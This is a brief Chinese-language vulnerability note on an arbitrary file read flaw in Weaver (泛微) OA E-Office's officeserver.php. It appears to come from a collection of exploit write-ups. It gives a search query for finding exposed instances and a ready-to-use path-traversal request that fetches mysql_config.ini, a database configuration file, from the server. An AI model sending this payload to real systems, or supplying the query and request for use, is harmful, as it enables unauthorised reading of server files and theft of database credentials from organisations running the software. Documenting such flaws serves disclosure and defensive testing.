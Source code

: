 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383-20220313185607234.png)

验证POC

```javascript
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![img](../../../.vuepress/public/img/1646044472614-5b3e654f-bde4-44e4-81b5-184c21585029.png)